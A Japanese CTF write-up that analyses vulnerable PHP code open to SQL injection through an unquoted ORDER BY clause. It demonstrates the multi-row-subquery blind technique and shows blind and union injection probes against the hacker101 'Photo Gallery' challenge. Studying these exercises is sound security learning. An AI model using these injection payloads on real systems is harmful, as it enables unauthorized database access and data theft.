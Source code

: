 ```php
      $result=mysql_query("select * from guys_tbl order by reg_date $sort");
      while($row=mysql_fetch_array($result)){
       echo "<tr><td>$row[1]</td><td>$row[2]</td></tr>";
      }
     ?>
    </tbody>
   </table>
  </div>
  <div style="text-align:center;">
      <a href="?view-source">view-source</a>
  </div>
 </body>
</html>
```
以下が怪しい。`mysql_real_escape_string`はPHP7以降は削除された関数で`\x00`,`\`,`'`,`"`,`\n`,`\r`,`\x1a`をエスケープしてくれるが、それだけなので`or 1=1`みたいにすると普通にInjectionできる！  
今回も`'$sort'`とされていないのでSQLInjection可能とわかる。  
```php
      mysql_query("update authkey set authkey='".auth_code('lonely guys')."'");
      $sort = mysql_real_escape_string($sort);
      $result=mysql_query("select * from guys_tbl order by reg_date $sort");
```
`order by`句の中にInjectできる場合は以下のようにして、order byが複数行副問い合わせを受け付けないことを利用した有名なBlindができるらしい。  
https://notsosecure.com/injection-in-order-by-clause/  
```txt
mysql> select id from news where id =1 order by 1, (select case when (1=1) then 1 else 1*(select table_name from information_schema.tables)end)=1;
+——+
| id   |
+——+
|    1 | 
+——+
1 row in set (0.00 sec)
—-
mysql> select id from news where id =1 order by 1, (select case when (1=2) then 1 else 1*(select table_name from information_schema.tables)end)=1;
ERROR 1242 (21000): Subquery returns more than 1 row
—–
```
- **payload**  

## hacker101 CTF
### Photo Gallery
`https://ctf.hacker101.com/ctf`  
以下のページが問題。  
![image](https://user-images.githubusercontent.com/56021519/103919476-698e4900-5153-11eb-81ed-604ffc2c9917.png)  
`http://35.227.24.107/2116b46989/fetch?id=1`で`1`,`2`の時に画像データを返すらしい。  
おそらく`select data from images where id=1`とかになってるはずと推測する(idはintなので)。  
`1 and 1=1 -- -`で画像データが返り、`1 and 1=2 -- -`でなNot Foundが返ったのでBlind可能！  
Union queryも試したがダメっぽい？  
```txt
1 union select 1 -- -
1に対応する猫の画像が返った

0 union select 1 -- -
internal server error
```
以下のように  
https://sqliteonline.com/  
で実験すると、`id=0`として失敗させたときは`union select`が取り出されると思ったんだけど……  
![image](https://user-images.githubusercontent.com/56021519/103920720-f7b6ff00-5154-11eb-86d9-fabb4b5fad14.png)  